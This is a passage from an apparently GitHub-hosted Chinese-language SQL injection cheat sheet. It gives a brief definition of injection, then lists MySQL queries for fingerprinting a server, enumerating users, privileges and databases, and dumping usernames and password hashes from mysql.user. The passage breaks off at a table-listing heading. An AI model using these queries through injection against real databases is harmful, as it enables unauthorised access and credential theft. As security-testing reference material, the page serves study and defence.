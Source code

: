 #SQL注入常用语句

##SQL注入基础知识
所谓SQL注入，就是通过把SQL命令插入到Web表单提交或输入域名或页面请求的查询字符串，最终达到欺骗服务器执行恶意的SQL命令。具体来说，它是利用现有应用程序，将（恶意）的SQL命令注入到后台数据库引擎执行的能力，它可以通过在Web表单中输入（恶意）SQL语句得到一个存在安全漏洞的网站上的数据库，而不是按照设计者意图去执行SQL语句。[1] 比如先前的很多影视网站泄露VIP会员密码大多就是通过WEB表单递交查询字符暴出的，这类表单特别容易受到SQL注入式攻击．

##MySQL
**基本环境信息**

	#获取版本号
	SELECT @@version
	SELECT version()
	
	#主机名，IP地址
	SELECT @@hostname;
	
	#数据目录
	SELECT @@datadir;
	
	#用户名及密码
	SELECT host, user, password FROM mysql.user;
	 
	#用户名
	SELECT user();
	SELECT system_user();
	SELECT user FROM mysql.user;

**用户权限相关**
	
	#列举用户权限]
	SELECT grantee, privilege_type, is_grantable FROM information_schema.user_privileges;

	#列举用户权限
	SELECT host, user, Select_priv, Insert_priv,  
	Update_priv, Delete_priv, Create_priv, Drop_priv,  
	Reload_priv, Shutdown_priv, Process_priv, File_priv,  
	Grant_priv, References_priv, Index_priv, Alter_priv,  
	Show_db_priv, Super_priv, Create_tmp_table_priv,  
	Lock_tables_priv, Execute_priv, Repl_slave_priv,  
	Repl_client_priv FROM mysql.user;

	#列举数据库权限
	SELECT grantee, table_schema, privilege_type FROM  
	information_schema.schema_privileges;

	#列举 columns_priv**
	SELECT table_schema, table_name, column_name, privilege_type FROM  
	information_schema.column_privileges;
	
**列举数据库**

	#当前库**
	SELECT database();
	#所有库 (Mysql>5.0)
	SELECT schema_name FROM information_schema.schemata;
**列举表名**
